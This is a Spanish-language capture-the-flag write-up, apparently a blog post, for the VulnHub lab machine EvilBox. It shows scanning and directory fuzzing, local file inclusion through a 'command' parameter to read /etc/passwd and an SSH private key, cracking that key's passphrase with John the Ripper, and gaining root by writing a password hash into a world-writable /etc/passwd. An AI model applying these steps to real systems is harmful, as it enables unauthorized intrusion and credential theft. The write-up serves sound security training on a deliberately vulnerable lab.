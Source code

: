 ```yaml
---
title: VulnHub - EvilBox
published: true
---
```


---
## Intrusion
Empiezo haciendo un escaneo con nmap para ver puertos abiertos

```bash
❯ nmap 192.168.1.19
Nmap scan report for 192.168.1.19
Host is up (0.0024s latency).
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

![](https://eidd3.github.io/assets/img/evilbox/img1.png)

Uso nikto para ver posibles vulnerabilidades o recursos en la página

```bash
❯ nikto -h http://192.168.1.19/
---------------------------------------------------------------------------
+ Target IP:          192.168.1.19
+ Target Hostname:    192.168.1.19
+ Target Port:        80
+ Start Time:         2023-01-17 18:11:38 (GMT-3)
---------------------------------------------------------------------------
+ Server: Apache/2.4.38 (Debian)
+ "robots.txt" retrieved but it does not contain any 'disallow' entries (which is odd).
+ OSVDB-3092: /secret/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ End Time:           2023-01-17 18:12:00 (GMT-3) (22 seconds)
---------------------------------------------------------------------------
```

Me muestra un "_robots.txt_" un directorio **"/secret/"** y un **"/icons/README".**

Nada interesante en _robots.txt_ y **/secret** por ahora


![](https://eidd3.github.io/assets/img/evilbox/img2.png)

![](https://eidd3.github.io/assets/img/evilbox/img3.png)

Después de hacer fuzzing de subdominios u otras rutas y no encontrar nada, busque por archivos php o txt en el directorio **/secret/**

```bash
 gobuster dir -u http://192.168.1.19/secret/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 40 -x php,txt
===============================================================
Gobuster v3.1.0
===============================================================
[+] Url:                     http://192.168.1.19/secret/
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
/evil.php             (Status: 200) [Size: 0]

===============================================================
2023/01/17 19:05:06 Finished
===============================================================
```

El recurso evil.php existe pero en la web todavía no muestra nada

![](https://eidd3.github.io/assets/img/evilbox/img4.png)

Tiene pinta de ser un Local File Inclusion (LFI), por lo que lanzo otro escaneo para detectar algún parámetro web con el que pueda listar archivos locales de la maquina

```bash
❯ wfuzz -c --hc=404 --hw=0 -w /opt/SecLists/Miscellaneous/web/html-tags.txt 'http://192.168.1.19/secret/evil.php?FUZZ=/etc/passwd' 2>/dev/null
********************************************************

Target: http://192.168.1.19/secret/evil.php?FUZZ=/etc/passwd
Total requests: 153

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                         
=====================================================================

000000032:   200        27 L     39 W       1458 Ch     "command"                                                                                       

Total time: 0
Processed Requests: 153
Filtered Requests: 152
Requests/sec.: 0
```

command parece ser el parámetro para intentar un LFI

![](https://eidd3.github.io/assets/img/evilbox/img5.png)

Funciona, por lo que ahora podemos probar ver la id_rsa de algún usuario del sistema

![](https://eidd3.github.io/assets/img/evilbox/img6.png)

Vemos la del usuario mowree pero está encriptada.

Con ssh2john podemos tratar de sacar la contraseña.

```bash
❯ /usr/share/john/ssh2john.py id_rsa > hash
```

```bash
❯ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
unicorn          (id_rsa)

Session completed
```


Tengo la contraseña de la id_rsa por lo que ahora puedo intentar conectarme por ssh ingresando la clave de la is_rsa pero sin poner la contraseña del usuario mowree


```bash
❯ ssh mowree@192.168.1.19 -i id_rsa
Enter passphrase for key 'id_rsa': 
Linux EvilBoxOne 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64
mowree@EvilBoxOne:~$ whoami
mowree
mowree@EvilBoxOne:~$
```

## Elevando Privilegios

Si listamos los permisos del archivo /etc/passwd vemos que otros pueden escribir

```bash
mowree@EvilBoxOne:~$ ls -la /etc/passwd
-rw-rw-rw- 1 root root 1398 Aug 16  2021 /etc/passwd
```

Por lo que ahora podemos crear una contraseña para el usuario root y poner el hash en el /etc/passwd

```bash
❯ openssl passwd -1
Password: 
Verifying - Password: 
$1$eKwzP0P1$W4PsKYip9JqhXY2BAKMBe0
```

Con openssl generamos el hash de la contraseña "password123” y lo cambiamos por la x en /etc/passwd


![](https://eidd3.github.io/assets/img/evilbox/img7.png)

![](https://eidd3.github.io/assets/img/evilbox/img8.png)
